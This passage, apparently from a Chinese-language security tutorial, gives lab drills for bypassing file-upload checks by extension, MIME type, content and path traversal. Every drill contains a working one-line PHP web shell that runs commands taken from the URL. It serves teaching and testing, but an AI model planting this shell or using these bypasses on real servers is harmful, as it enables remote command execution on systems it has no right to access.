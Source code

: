 ### 5.2 文件扩展名绕过演练

1. **准备恶意文件**：创建一个包含PHP代码的恶意文件`shell.php`，内容如下：

```php
<?php
echo system($_GET['cmd']);
?>
```

2. **修改文件扩展名**：将文件重命名为`shell.php.jpg`，尝试上传。

3. **观察结果**：由于应用程序仅检查`.jpg`扩展名，文件上传成功。访问`http://localhost/uploads/shell.php.jpg?cmd=whoami`，可以看到服务器执行了`whoami`命令。

### 5.3 MIME类型绕过演练

1. **准备恶意文件**：创建一个包含PHP代码的恶意文件`shell.php`，内容如下：

```php
<?php
echo system($_GET['cmd']);
?>
```

2. **修改MIME类型**：使用Burp Suite等工具拦截上传请求，修改`Content-Type`字段为`image/jpeg`。

3. **观察结果**：由于应用程序仅检查MIME类型，文件上传成功。访问`http://localhost/uploads/shell.php?cmd=whoami`，可以看到服务器执行了`whoami`命令。

### 5.4 文件内容绕过演练

1. **准备恶意文件**：创建一个包含PHP代码的图片文件`image.jpg`，内容如下：

```php
<?php
echo system($_GET['cmd']);
?>
```

2. **上传文件**：直接上传`image.jpg`文件。

3. **观察结果**：由于应用程序未检测文件内容，文件上传成功。访问`http://localhost/uploads/image.jpg?cmd=whoami`，可以看到服务器执行了`whoami`命令。

### 5.5 文件路径控制绕过演练

1. **准备恶意文件**：创建一个包含PHP代码的恶意文件`shell.php`，内容如下：

```php
<?php
echo system($_GET['cmd']);
?>
```

2. **目录遍历**：将文件重命名为`../shell.php`，尝试上传。

3. **观察结果**：由于应用程序未严格控制文件路径，文件上传成功并覆盖了系统文件。访问`http://localhost/shell.php?cmd=whoami`，可以看到服务器执行了`whoami`命令。
